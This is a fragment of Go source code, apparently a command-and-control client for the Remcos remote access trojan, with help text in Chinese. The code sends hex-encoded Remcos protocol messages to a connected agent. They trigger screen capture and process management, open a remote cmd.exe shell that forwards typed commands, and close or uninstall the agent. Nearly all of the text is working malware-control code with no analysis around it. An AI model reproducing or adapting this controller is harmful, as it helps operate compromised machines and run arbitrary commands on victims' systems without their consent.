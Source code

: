 ```plain
        if reader.Scan() {
            text := reader.Text()
            switch text {
            case "screen_capture":
                sendbuf, _ := hex.DecodeString("100000003133363339313535327c1e1e1f7c35307c1e1e1f7c307c1e1e1f7c2d317c1e1e1f7c30")
                remcos_xx.Sendbuf(conn, sendbuf)
            case "process_manager":
                sendbuf, _ := hex.DecodeString("06000000")
                remcos_xx.Sendbuf(conn, sendbuf)

                recvdata, err = remcos_xx.RecvBuf(conn)
                if err != nil {
                    fmt.Println(err.Error())
                    panic(0)
                }
                command = remcos_xx.ParseCommand(recvdata[:4])
                if hex.EncodeToString(command) == "0000004f" {
                    remcos_xx.Command_Process_Manager(recvdata[4:])
                }
            case "command_line":
                sendbuf, _ := hex.DecodeString("0e0000003133353730373732387c1e1e1f7c636d642e657865")
                remcos_xx.Sendbuf(conn, sendbuf)
                for {
                    reader = bufio.NewScanner(os.Stdin)
                    if reader.Scan() {
                        text = reader.Text()
                        if text == "exit" {
                            remcos_xx.Stop()
                            break
                        } else {
                            sendbuf = []byte{0x0E, 0x00, 0x00, 0x00, 0x31, 0x33, 0x35, 0x37, 0x30, 0x37, 0x37, 0x32, 0x38, 0x7C, 0x1E, 0x1E, 0x1F, 0x7C}
                            sendbuf = append(sendbuf, []byte(text)...)
                            sendbuf = append(sendbuf, []byte{0x7C, 0x1E, 0x1E, 0x1F, 0x7C}...)
                            remcos_xx.Sendbuf(conn, sendbuf)
                        }
                    }
                }
            case "close":
                sendbuf, _ := hex.DecodeString("21000000")
                remcos_xx.Sendbuf(conn, sendbuf)
                os.Exit(0)
            case "uninstall":
                sendbuf, _ := hex.DecodeString("22000000")
                remcos_xx.Sendbuf(conn, sendbuf)
                os.Exit(0)
            case "exit":
                os.Exit(0)
            case "help":
                fmt.Println("\tscreen_capture:截屏")
                fmt.Println("\tprocess_manager：进程管理")
                fmt.Println("\tcommand_line：执行命令行")
                fmt.Println("\tclose：关闭Agent进程")
                fmt.Println("\tuninstall：卸载Agent")
                fmt.Println("\texit：退出Client")
            }
        }
    }
}
```
